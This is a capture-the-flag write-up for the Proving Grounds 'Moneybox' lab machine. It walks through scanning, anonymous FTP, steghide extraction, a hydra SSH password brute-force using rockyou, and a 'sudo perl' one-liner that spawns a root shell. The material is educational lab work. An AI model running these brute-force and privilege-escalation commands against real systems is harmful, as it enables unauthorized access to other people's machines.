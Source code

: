 ```yaml
---
title: "Proving grounds Play: Moneybox"
layout: post
date: 2023-09-12 01:00
categories: writeup
---
```


Proving grounds Play - Moneybox CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e30ce7281e0a23d5c28888b12acfaac (RSA)
|   256 019dfafbf20637c012fc018b248f53ae (ECDSA)
|_  256 2f34b3d074b47f8d17d237b12e32f7eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: MoneyBox
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing: Directories

```text
/blogs
```

### Landing page

![img](/assets/images/CTF/Proving_Grounds/Moneybox/web1.png)

View-source disclosed a hint about the secret directory 

```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

The secret directory source disclosed a secret key `<!..Secret Key 3xtr4ctd4t4 >`.

## FTP

FTP allows anonymous login.

![img](/assets/images/CTF/Proving_Grounds/Moneybox/ftp.png)

Download the image file and use the secretkey found earlier as password to extract information.

```sh
steghide extract -sf trytofind.jpg
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/steghide.png)

A file names data.txt has been written to the same directory, that contains hint about the user and password.

```text
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

## Crack SSH credentials using hydra

```sh
hydra -l renu -P /usr/share/wordlists/rockyou.txt 192.168.180.230 -t 4 ssh
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/ssh-crack.png)

SSH to user `renu` using the password.

**Initial Foothold obtained**

![img](/assets/images/CTF/Proving_Grounds/Moneybox/renu-dir.png)

After searching the directoriees in renu user ,an another user was found in the `/home` directory `lily`.

The user lily has a SSH authorized key which belongs to the user renu, SSH to user lily from user renu.

![img](/assets/images/CTF/Proving_Grounds/Moneybox/lily.png)

## Enumerate user permission

```sh
sudo -l
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/sudo-l.png)

## Privilege Escalation

### Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```sh
sudo perl -e 'exec "/bin/sh";'
```

![img](/assets/images/CTF/Proving_Grounds/Moneybox/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).